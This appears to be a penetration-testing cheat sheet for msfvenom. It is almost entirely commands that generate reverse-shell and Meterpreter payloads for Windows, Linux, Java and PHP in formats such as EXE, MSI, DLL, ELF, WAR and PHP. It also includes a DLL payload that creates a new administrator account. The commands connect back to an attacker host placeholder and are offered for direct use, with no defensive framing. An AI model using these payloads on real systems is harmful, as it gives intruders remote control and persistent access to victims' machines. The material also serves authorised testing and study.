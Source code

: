 ### list available formats (or payloads, archs, platforms, etc)
```
msfvenom -l format
```

### EXE
```
msfvenom -p windows/x64/meterpreter_reverse_http lhost=<lhost> lport=<lport> -f exe > <file>.exe
```

### MSI
```
msfvenom -p windows/shell/reverse_tcp lhost=<lhost> lport=<lport> -f msi > <file>.msi
```

### CMD
```
msfvenom -p cmd/windows/reverse_powershell lhost=<lhost> lport=<lport> > <file>.bat
```

### ASP
```
msfvenom -p windows/shell_reverse_tcp lhost=<lhost> lport=<lport> -f asp > <file>.asp
```

### DLL
```
msfvenom -p windows/exec CMD="cmd /c net user <user> <password> /add && net localgroup administrators <user> /add" -f dll > <file>.dll
```

### ELF
```
msfvenom -p linux/x64/shell_reverse_tcp lhost=<lhost> lport=<lport> -f elf > <file>.elf
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o <file>.elf
```

### Python
```
msfvenom -p linux/x64/shell_reverse_tcp lhost=<lhost> lport=<lport> -f python
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f raw > <file>.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f war > <file>.war
```

### PHP (add <?php ... ?> afterwards)
```
msfvenom -p php/reverse_php lhost=<lhost> lport=<lport> -f raw > <file>.php
```

### specify custom input
```
cat test.sh | msfvenom -p - -a x86_64 --platform linux -f c
```

